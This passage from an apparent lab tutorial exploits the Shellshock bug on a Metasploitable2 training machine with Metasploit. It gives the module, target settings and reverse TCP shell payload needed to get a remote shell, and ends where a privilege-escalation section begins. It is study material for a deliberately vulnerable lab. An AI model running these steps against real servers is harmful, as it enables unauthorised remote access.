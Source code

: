 ## Step 3 (test in browser of machine that can reach you metasploitable2 machine
http://192.168.10.x/cgi-bin/hello.sh 
```

### Todo 2: Proceed on kali 

```
## Connect through ssh or use desktop -> terminal as root
msfconsole 
msf>search shellshock 
msf>use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf.....>options

## We need to set the path and the ip of the target (metaploitable 2) here.
msf.....>set rhost 192.168.10.198
msf.....>set targeturi /cgi-bin/hello.sh
targeturi => /cgi-bin/hello.sh

## Now we need to decide for a payload 
msf.....>show payloads 
msf.....>set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

## let again check the options 
msf.....>options 

## IMPORTANT: If you have 2 network interfaces, you need to set the right one 
msf.....>set lhost 192.168.10.169

## now let's try if it would work 
msf....>check 

## now let's exploit
msf....>exploit

## Try to get some info now 
whoami 

## Yes, we are successful
```

### Ref: (normal privileges)

  * https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/



### Hacking II - privilege escalation


### Prerequisites 

  * You need to have a reverse shell open (e.g. Hacking I - Session) 
```